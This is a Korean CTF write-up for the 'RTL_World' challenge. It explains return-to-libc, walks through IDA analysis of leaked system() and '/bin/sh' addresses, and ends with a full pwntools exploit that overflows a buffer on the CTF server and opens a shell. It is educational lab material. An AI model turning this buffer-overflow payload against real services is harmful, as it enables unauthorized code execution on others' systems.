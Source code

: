 RTL_World
-------------	
 ![txt](txt.png)
* RTL 이란?    
Return-to-libc란 뜻으로, libc안 함수를 이용해 쉘을 실행시키는게 목표이다!    
조금 생각해보면, 우리가 쉘을 가잘 빨리 얻을 수 있는 방법이 뭘까?    
```c	system("/bin/sh")``` 
이 코드일 것이다.   
RTL은 코드의 Return까지 BOF를 일으키고, Return Address에 system()의 주소를 넣고, 4byte의 더미값 + 쉘코드를 넣으면 된다.   
여기서 왜 4byte의 더미값을 넣는 것일 까?   
system()함수 뒤의 값은 system()가 끝나고 실행되는 코드이기 때문이다.    
이제 RTL이 무엇인지 이해가 됐을 꺼라 믿고, 문제를 풀이해보겠다!    

-----------------------------------------    
## 문제풀이    

일단 문제에 접속해보면,    
![com_1](Com_1.PNG)    
보스를 잡아달라고 한다.   
2,3,4는 IDA코드를 보면서 알아보도록 하고,   
1을 입력해보면,    
![com_2](Com_2.PNG)    
걸려있는 보호기법이랑, 보스의 주소(?)랑 HP가 나오는데, 뭔 뜻인지는 나중에 IDA를 까보면서 알아보자.   
5를 입력하면 공격하라고 뜬다.    
![com_3](Com_3.PNG)    

자 그럼 IDA로 뜯어보도록 하자!    

 -----------------------------------------    
### 코드분석    
![IDA](IDA.PNG)    
2는 3,4를 정상적으로 실행하기 위한 골드 수급용 함수인 것 같다.    
(진짜 게임같네)    
3은 **system Armor** 라면서 v6의 주소를 준다. v6?   
4는 **Shell Sword** 라면서 s1의 주소를 준다. s1?    
위 두 변수의 정체가 뭘까?    
![IDA_2](IDA_2.PNG)   
위 코드를 보면,   
handle은 떡하니 libc라고 적혀있는 걸로 봐서 libc의 주소를 기억하는 것 같고,   
v6에는 그 handle, 즉 libc에서 system함수를 찾아 그 주소를 저장한다.    
그다음 s1에는 v6, 즉 system함수에서 "/bin/sh"이라는 문자열의 주소를 저장한다.   
자 그러면 3을 입력하면 system함수의 주소가,  4를 입력하면 "/bin/sh", 쉘코드의 주소를 전달해주는 걸 알 수 있다!   
좋아 거의 다 끝났다!    
이제 얼만큼 BOF를 일으켜야 할지 구하기만 하면 된다!    
![IDA_3](IDA_3.PNG)    
보면 buf는 ebp-8CH에 위치해 있다고 한다.   
8C = 140 
즉 Payload를 짜보면 
Dummy(140) + SFP(4) + system()주소 + Dummy(4) + "/bin/sh"의 주소를 넣으면 된다!    

 -----------------------------------------    
### 익스코드    
```python 
from pwn import *

p = remote("ctf.j0n9hyun.xyz", 3010)

for i in range(8):
	p.recvuntil(">>> ")
	p.sendline("2")
	p.recvuntil("(Job)>>> ")
	p.sendline("3")

p.recvuntil(">>> ")
p.sendline("3")
p.recvuntil("System Armor : ")
systemAdd =p32(int(p.recv(10),16))
p.recvuntil(">>> ")
p.sendline("4")
p.recvuntil("Shell Sword : ")
shellAdd = p32(int(p.recv(10),16))

payload = 'R'*144
payload += systemAdd
payload += 'T'*4
payload += shellAdd

p.recvuntil(">>> ")
p.sendline("5")
p.recvuntil("[Attack] > ")
p.sendline(payload)
p.interactive()
```    
